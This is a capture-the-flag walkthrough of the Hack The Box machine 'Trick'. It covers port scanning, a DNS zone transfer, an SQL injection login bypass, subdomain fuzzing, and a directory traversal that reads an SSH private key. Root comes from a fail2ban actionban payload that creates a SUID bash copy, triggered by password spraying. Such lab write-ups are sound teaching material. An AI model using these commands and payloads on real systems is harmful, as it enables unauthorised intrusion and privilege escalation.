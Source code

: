 # [Trick](https://app.hackthebox.com/machines/Trick)

```bash
nmap -p- --min-rate 10000 10.10.11.166 -Pn
```

![Alt text](img/image.png)


After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,25,53,80 10.10.11.166 -Pn
```

![Alt text](img/image-1.png)


Let's add this ip address into `/etc/hosts` file as `trick.htb`.


I just run `dig` to get information about domain.
```bash
dig axfr trick.htb @10.10.11.166
```

![Alt text](img/image-3.png)

I get new domain name called 'preprod-payroll.trick.htb'. I also add this into `/etc/hosts` file.


While opening this web application, I confront with authentication `login.php` page.

![Alt text](img/image-4.png)

I just try to do `SQLI` to bypass authentication via adding username **'dr4ks or 1=1;–'** and password as empty, I logged in.

![Alt text](img/image-5.png)

After this, I saved this `POST` request as `.req` file, then use `sqlmap` to attack.

```bash
sqlmap -r login.req --level 5 --risk 3 --batch
```

![Alt text](img/image-6.png)


But I cannot get enough information from here, that's why I try to make again subdomain fuzz via `preprod-{FUZZ}` by using `wfuzz` tool.


```bash
wfuzz -u http://10.10.11.166 -H "Host: preprod-FUZZ.trick.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 5480
```

![Alt text](img/image-2.png)


I found `preprod-marketing.trick.htb`, let's add this into `/etc/hosts` file also.

While opening this application, I see that `index.php` file is used via `page` parameter.

![Alt text](img/image-7.png)


I guess that there can `Directory Traversal` vulnerability, let's fuzz via `zap`.

![Alt text](img/image-8.png)

After finding `Directory Traversal` vulnerability, I try to read private key (id_rsa) file.

![Alt text](img/image-9.png)


Let's copy this file `id_rsa` and save on attacker's machine.

```bash
chmod 600 id_rsa
ssh -i id_rsa michael@10.10.11.166
```

user.txt

![Alt text](img/image-10.png)


I just check privileges of this user via `sudo -l` command.

![Alt text](img/image-11.png)


Let's search privilege escalation for `fail2ban` binary on exact this [blog](https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49).

```bash
ls -la iptables-multiport.conf
mv iptables-multiport.conf iptables-multiport.conf.bak
cp iptables-multiport.conf.bak iptables-multiport.conf
ls -la iptables-multiport.conf
chmod 666 iptables-multiport.conf
```

![Alt text](img/image-12.png)


After this, I add my malicious payload into `iptables-multiport.conf` file as below which is copied `bash` binary to execute via `SUID` permission.
```bash
actionban= cp /bin/bash /tmp/dr4ks; chmod 4777 /tmp/dr4ks
```

![Alt text](img/image-13.png)

After this I need to do restart operation via `sudo` privileges.
```bash
sudo /etc/init.d/fail2ban restart
```

![Alt text](img/image-14.png)

To execute this , we need to do 5 failed login attempts. For automation, I use `crackmapexec` binary.

```bash
crackmapexec ssh trick.htb -u oxdf -p /usr/share/wordlists/rockyou.txt
```

![Alt text](img/image-15.png)


Now, I can see my copied `bash` shell named as `dr4ks`, let's execute this via `-p` option.


root.txt

![Alt text](img/image-16.png)

